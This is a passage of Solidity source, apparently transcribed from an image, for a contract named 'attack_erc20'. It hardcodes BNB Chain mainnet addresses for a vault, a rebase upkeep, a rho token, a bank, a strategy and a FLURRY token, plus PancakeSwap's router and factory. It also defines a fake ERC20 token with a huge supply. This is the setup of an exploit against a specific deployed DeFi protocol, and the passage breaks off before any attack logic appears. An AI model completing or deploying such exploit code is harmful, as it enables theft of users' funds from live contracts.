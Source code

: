 ```solidity
        uint amountInMax,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);
}
interface IPancakeFactory {
    function getPair(address tokenA, address tokenB) external view returns (address pair);
}
interface IPancakePair {
    function balanceOf(address owner) external view returns (uint);
    function transfer(address to, uint value) external returns (bool);
    function transferFrom(address from, address to, uint value) external returns (bool);
    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
}
contract attack_erc20{
    address public owner;
    address public vaultAddress     = 0x4BAd4D624FD7cabEeb284a6CC83Df594bFDf26Fd;
    address public rebaseUpKeep     = 0xc8935Eb04ac1698C51a705399A9632c6FaeCa57f;
    address public rhoAddress       = 0xD845dA3fFc349472fE77DFdFb1F93839a5DA8C96;
    address public BUSDAddress      = 0x55d398326f99059fF775485246999027B3197955;
    address public Bank             = 0xbEEB9d4CA070d34c014230BaFdfB2ad44A110142;
    address public PancakeRouter    = 0x10ED43C718714eb63d5aA57B78B54704E256024E;
    address public PancakeFactory   = 0xcA143Ce32Fe78f1f7019d7d551a6402fC5350c73;
    address public pair;
    address public strategy         = 0x5085c49828B0B8e69bAe99d96a8e0FCf0A033369;
    address public FLURRY           = 0x47c9BcEf4fE2dBcdf3Abf508f147f1bBE8d4fEf2;
    address public WBNB             = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;



    uint public BUSDBalanceBefore;
    uint public BUSDBalanceAfter;
    uint public rhoBefore;
    uint public rhoAfter;
    uint public Mbefore;
    uint public Mafter;
    uint public MAX = 115792089237316195423570985008687907853269984665640564039457584007913129639935;
    
    string public name = 'fake';
    string public symbol = 'FKT';
    uint8 public decimals = 18;  
    uint256 public totalSupply = 1e28; 
    mapping (address => mapping (address => uint256)) public allowance;
    mapping (address => uint256) public balanceOf;
    constructor(){
        owner = msg.sender;
        balanceOf[owner] = 1e18;
    }
    function _transfer(address _from, address _to, uint _value) internal {

        require(balanceOf[_from] >= _value);  
        require(balanceOf[_to] + _value > balanceOf[_to]);


        balanceOf[_from] -= _value; 
        balanceOf[_to] += _value;
    }

    function transfer(address _to, uint256 _value) public {
        _transfer(msg.sender, _to, _value);
```